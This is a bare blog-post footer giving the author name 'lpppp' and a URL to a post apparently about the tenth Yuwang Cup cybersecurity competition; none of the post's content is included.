‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/%E7%AC%AC%E5%8D%81%E5%B1%8A%E5%BE%A1%E7%BD%91%E6%9D%AF%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B/  

